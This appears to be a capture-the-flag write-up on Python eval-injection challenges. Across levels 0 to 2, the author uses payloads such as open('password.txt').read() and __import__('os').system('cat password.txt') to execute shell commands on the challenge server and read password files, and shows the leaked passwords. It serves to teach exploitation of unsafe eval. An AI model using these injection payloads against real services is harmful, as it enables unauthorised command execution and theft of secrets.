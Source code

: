 There is a password to unlock the next level, let’s try getting the password file.

```
open("password.txt").read()
```

And..

`Result: PuXqj7n4WNZzStnWbtPv. The correct answer was 4045986092.`

Let’s try it:

![](https://i.imgur.com/fZ73o2e.png)

That was easy. Bring more.

### Level 1

Let’s start trying the same.

```
open('./problem.py').read()
```

Not that good result.

```
Traceback (most recent call last):
  File "problem.py", line 7, in <module>
    result = eval(answer, {"open": None})
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not callable
```

It blocked the `open` function. Can’t directly open the source or the password file… can’t we?

Let’s try a shell RCE. Since we can’t do multiline statements - like `import os` and `os.system("cmd")` - in the `eval` call, we can import using a builtin function and then call it.

```
__import__("os").system("cat password.txt")
```

`Krdi9yQuY8mHoteZDCF5Result: 0. The correct answer was 1615348051.`

Let’s try to check-in to the next level with it.

`Unlocked level 2`

Next!

### Level 2

Let’s start with the previous payload.

`cat: password.txt: No such file or directory`

OK, we still have the RCE with the same payload, but there is no password file. Let’s check the source code of level 2.

```
__import__("os").system("cat problem.py")
```
